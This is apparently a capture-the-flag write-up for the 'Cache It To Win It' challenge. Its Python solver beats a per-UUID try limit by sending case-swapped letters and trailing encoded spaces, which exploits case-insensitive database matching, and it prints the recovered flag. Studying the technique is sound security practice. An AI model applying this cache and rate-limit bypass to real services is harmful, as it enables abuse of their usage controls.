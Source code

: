 ## Question
Are YOU today's unlucky contestant in Cache! It! To! Win! It???????

## Solution
We were given a website with a randomly generated UUID, and when clicked it shows like this.
![image](https://github.com/user-attachments/assets/3b2583a2-433f-4c48-94d6-0b0f67e96f7e)

![image](https://github.com/user-attachments/assets/0736807d-f895-4a44-a5b5-8d33d1747e57)

This used MariaDB, and MariaDB has a vuln where it doesn't check if E and e are different and renders it in lowercase.
So we use this solver script-
```python
import requests
import re

URL = "https://cache-it-to-win-it.chall.lac.tf"

uuid = "5df525de-8951-45be-bdcd-b2ac736f89cc"

while len(re.findall("-[a-f]", uuid)) < 3:
    print("UUID received:", uuid)

    uuid = requests.get(URL).cookies.get("id")

uuid = list(uuid)

for i in range(0b111 + 1):
    for idx, c_idx in enumerate([9, 19, 24]):
        if i & (0b1 << idx):
            uuid[c_idx] = uuid[c_idx].upper()
        else:
            uuid[c_idx] = uuid[c_idx].lower()
    print("".join(uuid))

    for j in range(13):
        print("URL", URL + "/check?uuid=" + "".join(uuid) + ("%20" * j))
        r = requests.get(URL + "/check?uuid=" + "".join(uuid) + ("%20" * j))
        print(r.text)
```

It bruteforces the number of tries left and we get the result - CONGRATS! YOU HAVE WON.............. A FLAG! `lactf{my_c4ch3_f41l3d!!!!!!!}`
